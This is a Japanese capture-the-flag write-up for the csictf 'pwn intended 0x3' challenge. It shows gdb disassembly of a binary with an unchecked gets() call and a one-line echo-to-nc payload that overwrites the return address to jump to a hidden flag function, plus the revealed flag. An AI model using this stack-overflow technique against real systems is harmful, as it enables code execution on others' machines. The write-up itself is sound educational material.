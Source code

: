 # pwn intended 0x3:Pwn:313pts
Teleportation is not possible, or is it?  
nc chall.csivit.com 30013  
[pwn-intended-0x3](pwn-intended-0x3)  

# Solution
pwn-intended-0x3が渡されるのでgdbで見てみる。  
```bash
$ gdb pwn-intended-0x3
~~~
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401166 <+0>:     push   rbp
   0x0000000000401167 <+1>:     mov    rbp,rsp
   0x000000000040116a <+4>:     sub    rsp,0x20
   0x000000000040116e <+8>:     mov    rax,QWORD PTR [rip+0x2eeb]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x0000000000401175 <+15>:    mov    esi,0x0
   0x000000000040117a <+20>:    mov    rdi,rax
   0x000000000040117d <+23>:    call   0x401040 <setbuf@plt>
   0x0000000000401182 <+28>:    mov    rax,QWORD PTR [rip+0x2ee7]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401189 <+35>:    mov    esi,0x0
   0x000000000040118e <+40>:    mov    rdi,rax
   0x0000000000401191 <+43>:    call   0x401040 <setbuf@plt>
   0x0000000000401196 <+48>:    mov    rax,QWORD PTR [rip+0x2ee3]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x000000000040119d <+55>:    mov    esi,0x0
   0x00000000004011a2 <+60>:    mov    rdi,rax
   0x00000000004011a5 <+63>:    call   0x401040 <setbuf@plt>
   0x00000000004011aa <+68>:    lea    rdi,[rip+0xe57]        # 0x402008
   0x00000000004011b1 <+75>:    call   0x401030 <puts@plt>
   0x00000000004011b6 <+80>:    lea    rax,[rbp-0x20]
   0x00000000004011ba <+84>:    mov    rdi,rax
   0x00000000004011bd <+87>:    mov    eax,0x0
   0x00000000004011c2 <+92>:    call   0x401060 <gets@plt>
   0x00000000004011c7 <+97>:    mov    eax,0x0
   0x00000000004011cc <+102>:   leave
   0x00000000004011cd <+103>:   ret
End of assembler dump.
```
BOFはあるが、どこへ飛ばせばいいか不明である。  
flag関数がないか決め打ちで実行するとあった。  
objdumpすればすぐに見つかる。  
```bash
gdb-peda$ disass flag
Dump of assembler code for function flag:
   0x00000000004011ce <+0>:     push   rbp
   0x00000000004011cf <+1>:     mov    rbp,rsp
   0x00000000004011d2 <+4>:     lea    rdi,[rip+0xe5f]        # 0x402038
   0x00000000004011d9 <+11>:    call   0x401030 <puts@plt>
   0x00000000004011de <+16>:    lea    rdi,[rip+0xe7b]        # 0x402060
   0x00000000004011e5 <+23>:    call   0x401050 <system@plt>
   0x00000000004011ea <+28>:    mov    edi,0x0
   0x00000000004011ef <+33>:    call   0x401070 <exit@plt>
End of assembler dump.
```
0x00000000004011ceへ飛ばしてやればいいので以下のようにリターンアドレスを書き換える。  
```bash
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xce\x11\x40\x00\x00\x00\x00\x00" | nc chall.csivit.com 30013
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
flagが出てきた。  

## csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}